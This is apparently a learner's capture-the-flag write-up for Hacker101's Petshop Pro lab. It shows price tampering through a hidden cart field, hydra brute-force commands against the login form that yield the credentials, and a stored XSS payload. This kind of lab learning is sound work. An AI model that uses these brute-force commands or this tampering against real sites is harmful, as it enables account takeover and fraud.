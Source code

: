 # FLAG 0
FLAG 0 Started with the clue 
```
Something looks out of place with checkout
```
Since I was going to checkout I added one item to my cart and went to the checkout.


When you inspect the source code of the checkout page it is instantly clear that you can **manipulate the price input**

**BEFORE EDIT**
```html
<!doctype html>
<html>
	<head>
		<title>Petshop Pro &mdash; Cart</title>
	</head>
	<body>
		<h1>Shopping Cart</h1>
		<table>
			<tr>
				<th>Price</th>
				<th>Name</th>
				<th>Description</th>
			</tr>
			
			<tr>
				<td>$8.95</td>
				<td>Kitten</td>
				<td>8"x10" color glossy photograph of a kitten.</td>
			</tr>
			
			<tr>
				<td>$8.95</td>
				<td>Kitten</td>
				<td>8"x10" color glossy photograph of a kitten.</td>
			</tr>
			
		</table>
		<p><b>Total: $17.9</b></p>
		<form action="checkout" method="POST">
			<input type="hidden" name="cart" value="[[0, {&#34;logo&#34;: &#34;kitten.jpg&#34;, &#34;price&#34;: 8.95, &#34;name&#34;: &#34;Kitten&#34;, &#34;desc&#34;: &#34;8\&#34;x10\&#34; color glossy photograph of a kitten.&#34;}], [0, {&#34;logo&#34;: &#34;kitten.jpg&#34;, &#34;price&#34;: 8.95, &#34;name&#34;: &#34;Kitten&#34;, &#34;desc&#34;: &#34;8\&#34;x10\&#34; color glossy photograph of a kitten.&#34;}]]">
			<p><input type="submit" value="Check Out"></p>
		</form>
	</body>
</html> 
```

**Edited line**
```html
<form action="checkout" method="POST">
			<input type="hidden" name="cart" value="[[0, {&#34;logo&#34;: &#34;kitten.jpg&#34;, &#34;price&#34;: 0, &#34;name&#34;: &#34;Kitten&#34;, &#34;desc&#34;: &#34;8\&#34;x10\&#34; color glossy photograph of a kitten.&#34;}], [0, {&#34;logo&#34;: &#34;kitten.jpg&#34;, &#34;price&#34;: 0, &#34;name&#34;: &#34;Kitten&#34;, &#34;desc&#34;: &#34;8\&#34;x10\&#34; color glossy photograph of a kitten.&#34;}]]">
			<p><input type="submit" value="Check Out"></p>
		</form>
```
If you change the price of the item to 0 and hit checkout you will get the first flag.

# FLAG 1
Finding flag 1 took alot of time and research mostly learning how wordlists and hydra works.

I began with the clue 
```
There must be a way to administer the app
```
This pointed me towards finding a login page. I tried /admin , /manage and then eventually /login which was correct.

Once on the login page I tried the method of entering special characters to try an SQL injection but this was not the way to continue.

At this point I was stuck for ideas and took the second hint.
```
Tools may help you find the entrypoint
```
That is when I got onto the null-byte forum and found out about **brute force attacks**. With this new found knowledge I began researching brute force tools and found I already had hydra installed on my VM

After abit of reading of the help screen I got to the command
```shell
hydra 35.190.155.168 -L /home/ewan/Desktop/wordlists/rockyou.txt -p pass  http-post-form "/aadcaf10f3/login:username=^USER^&password=^PASS^:Invalid username" -t 64
```
This will use a wordlist to do a dictionary attack againest the login form. When it doesn't detect the "Invalid username" message on the screen that means the username is correct.

It found the username 'livvy' to be correct.

After this i just did the same thing but used -l livvy and -P wordlist instead to search for the correct password.

Its important to change the ending variable to 'Invalid Password' instead of username or the search will fail.

```
hydra 35.190.155.168 -l livvy -P /home/ewan/Desktop/wordlists/pass.txt  http-post-form "/aadcaf10f3/login:username=livvy&password=^PASS^:Invalid username" -t 64 
```

That gave the password samantha

Once the details are entered you get the flag

# FLAG 2
Flag 2 I found pretty easily. Once I had admin access I went to the edit page and started to mess with the fields mostly the name of item one.

I entered `<h1>foobar</h1>` and saved when returning to home it showed the heading this showed that it was executing HTML code when it shouldn't be and this could be exploited.

At this point I went back to the hacker101 video resources and researched XSS exploitation. Eventually I entered
```
<script>alert(1);</script>
```
into the name box and saved.

When returning to the home page the alert box appeared. No flag appeared so I was abit confused but once i went to the checkout and it appeared again and when I interacted with it the flags appeared.

# Conclusion
Overall another fun CTF learned alot about hydra and consolidated what I knew about XSS

